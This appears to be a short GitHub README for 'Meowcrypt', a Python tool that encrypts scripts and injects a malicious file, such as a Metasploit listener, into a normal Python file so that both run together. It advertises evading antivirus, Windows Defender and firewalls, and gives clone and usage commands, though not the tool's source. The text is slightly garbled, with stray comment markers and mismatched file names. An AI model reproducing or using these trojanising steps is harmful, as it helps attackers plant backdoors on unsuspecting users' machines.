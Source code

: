 Hi, i'm MeowtonKalava to LOLITEAM
website: https://dinhducthien.ooo/
 Distros tested on : Kali Rolling
## Description:
Meowcrypt used languages python for creat file backdoor.
and not check anti-virus, windows defender, firewall
# Download Tool:

```
$ https://github.com/MeoSully/MeowtonCrypt.git

# Usage:
# encrypt a python file

python Meowcrypt.py --file=filetoencrypt.py
python Meowcrypt.py --file=filetoencrypt.py --output=output_file.py

# inject a malicious python file into a normal python file

python Meowcrypt --file=normal_file.py --backdoor-file=msf_listener.py --output=test.py


/* when you will execute the file 'test.py' the file 'file.py' will be executed in the same time with
 the file 'listen.py' with multi-threading system */

"""
